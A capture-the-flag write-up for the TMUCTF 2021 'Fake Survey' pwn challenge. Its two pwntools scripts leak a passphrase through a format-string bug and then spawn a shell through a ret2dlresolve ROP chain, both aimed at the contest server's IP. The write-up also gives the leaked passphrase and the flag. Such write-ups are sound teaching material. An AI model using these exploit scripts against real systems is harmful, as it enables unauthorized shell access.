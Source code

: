 # Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
This challenge has two steps. In the first step we have to use `format string` vulnerability to leak the needed passPhrase. In second step we can use `return ro dl_reslove` technique.   
Here is the script used for the first step (also available in [solve_step1.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Pwn/Fake%20Survey/Writeup%20Files/solve_step1.py)):    
```python
import pwn
import time

i = 1
l = []
while(i != 15):
    r = pwn.remote('185.235.41.205', 7050)
    p = "%" + str(i) + "$p"
    r.sendline(p)
    r.recvlines(21)
    adminPass = r.recvline().split(" ")[-1]
    print(adminPass)
    l.append(adminPass)
    i = i + 1
pl = []
for k in l:
    try:
        pl.append(pwn.p32(int(k, 16)))
    except Exception as e:
        pass
print("".join(pl))
```   
And for `return to dl_resove` I used `Ret2dlresolvePayload` class of `pwntools`. Here is its script (also available in [solve_step2.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Pwn/Fake%20Survey/Writeup%20Files/solve_step2.py)):  
```python
from pwn import *
context.binary = elf = ELF('./fakesurvey')

rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()

p = remote('185.235.41.205', 7050)
p.sendline("CPRSyRMOFa3FVIF")
p.sendline(fit({64+context.bytes*3: raw_rop, 200: dlresolve.payload}))
p.interactive()
```   
The flag:   
```
TMUCTF{m4yb3_y0u_u53d_7h3_574ck_4nd_r37urn3d_70_dl_r350lv3}
```  

